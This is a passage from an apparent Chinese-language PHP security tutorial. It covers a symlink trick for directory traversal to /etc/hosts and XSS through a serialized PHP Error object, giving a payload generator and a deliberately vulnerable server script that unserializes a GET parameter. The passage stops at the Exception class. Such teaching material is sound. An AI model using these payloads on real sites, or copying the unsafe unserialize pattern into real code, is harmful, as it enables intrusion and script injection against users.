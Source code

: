 由于 symlink() 在软连接的时候不区分类型，我们利用创建的文件夹顶替了软连接，变成了

```bash
/www/wwwroot/default/tmplink/../../../../etc/hosts
```

也就目录穿越到了`/etc/hosts`

# Error,Exception:XSS，绕过哈希比较

## XSS

### Error 类

-   适用于 php7 版本
-   在开启报错的情况下

Error 类可以自定义一个 Error。

在 Php7 版本中，和前面的内置类利用条件一样，如果通过`echo`之类的方法，将对象当作一个字符串输出或使用的时候，会触发其内置的\_\_toString 方法，从而可以利用这个内置类做一些坏事情

比较常见的是在反序列化中没有 pop 链时，而且符合打的条件，可以转为利用 Error 类打 Xss

```bash
<?php
$a=new Error("<script>alert('xss')</script>");
echo urlencode(serialize($a));
```

```bash
<?php
phpinfo();
show_source(__FILE__);
$a = unserialize($_GET['cmd']);
echo $a;
?>
```

可以看到，server 端最后通过 echo 输出 GET 传参的结果，所以可以触发 Error 类的\_\_toString 方法

[![](assets/1708675446-0cc4feee5e05bb984d091958058aa10a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240222121043-59152f36-d138-1.png)

### Exception 类

-   适用于 php5、7 版本
-   开启报错的情况下

